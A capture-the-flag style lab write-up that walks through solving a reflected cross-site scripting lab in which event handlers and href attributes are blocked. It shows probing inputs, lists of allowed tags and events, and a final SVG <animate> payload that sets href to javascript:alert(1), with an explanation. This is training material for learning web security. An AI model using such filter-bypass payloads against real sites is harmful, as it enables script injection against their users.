




# Reflected XSS with event handlers and href attributes blocked

> Lab Objective: perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

- Firstly, Enter simple input like this `test'"><` in search functionality, then search for the input in the Source Code.
  

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- Therefore, try to inject `<script>alert(0)</script>`, but that tag is not allowed.
  
  

- Use Burp Suite Intruder (or run a python script) to figure out what tags are allowed.

- After running a python script, these are the allowed tags: ['a', 'animate', 'image', 'svg', 'title']

- Try injecting this payload `<a src=x onerror=alert(0)>`, but the `onerror` event is not allowed.
  

- Use Burp Suite Intruder (or run a python script) to figure out what JS event handlers are allowed.

- After running a python script, these are the allowed events:
  ['onafterprint', 'onafterscriptexecute', 'onanimationcancel', 'onanimationend', 'onanimationiteration', 'onanimationstart', 'onauxclick', 'onbeforecopy', 'onbeforecut', 'onbeforeinput', 'onbeforeprint', 'onbeforescriptexecute', 'onbeforetoggle', 'onbeforeunload', 'onbegin', 'onblur', 'oncancel', 'oncanplay', 'oncanplaythrough', 'onchange', 'onclick', 'onclose', 'oncontentvisibilityautostatechange', 'oncontentvisibilityautostatechange(hidden)', 'oncontextmenu', 'oncopy', 'oncuechange', 'oncut', 'ondblclick', 'ondrag', 'ondragend', 'ondragenter', 'ondragexit', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'ondurationchange', 'onend', 'onended', 'onerror', 'onfocus', 'onfocus(autofocus)', 'onfocusin', 'onfocusout', 'onformdata', 'onfullscreenchange', 'onhashchange', 'oninput', 'oninvalid', 'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onloadeddata',
  'onloadedmetadata', 'onloadstart', 'onmessage', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onmozfullscreenchange', 'onpagehide', 'onpageshow', 'onpaste', 'onpause', 'onplay', 'onplaying', 'onpointercancel', 'onpointerdown', 'onpointerenter', 'onpointerleave', 'onpointermove', 'onpointerout', 'onpointerover', 'onpointerrawupdate', 'onpointerup', 'onpopstate', 'onprogress', 'onratechange', 'onrepeat', 'onreset', 'onresize', 'onscroll', 'onscrollend', 'onscrollsnapchange', 'onsearch', 'onseeked', 'onseeking', 'onselect', 'onselectionchange', 'onselectstart', 'onshow', 'onsubmit', 'onsuspend', 'ontimeupdate', 'ontoggle', 'ontoggle(popover)', 'ontouchend', 'ontouchmove', 'ontouchstart', 'ontransitioncancel', 'ontransitionend', 'ontransitionrun', 'ontransitionstart', 'onunhandledrejection', 'onunload', 'onvolumechange', 'onwaiting', 'onwaiting(loop)', 'onwebkitanimationend', 'onwebkitanimationiteration', 'onwebkitanimationstart', 'onwebkitfullscreenchange',
  'onwebkitmouseforcechanged', 'onwebkitmouseforcedown', 'onwebkitmouseforceup', 'onwebkitmouseforcewillbegin', 'onwebkitplaybacktargetavailabilitychanged', 'onwebkitpresentationmodechanged', 'onwebkittransitionend', 'onwebkitwillrevealbottom', 'onwheel']

- Since it blocks `href` as an attribute not the word itself.

- Therefore, the payload will look like this, `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`

- `alert` function is executed and the lab is solved.
  

---

# Explanation

- The Payload:

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```

- Payload Explanation:
  - This SVG code creates a clickable text element ("Click me") at coordinates (20,20).
  - The `<a>` tag defines a hyperlink.
  - `<animate>` tag attempts to dynamically set the `href` attribute to `javascript:alert(1)`.

---
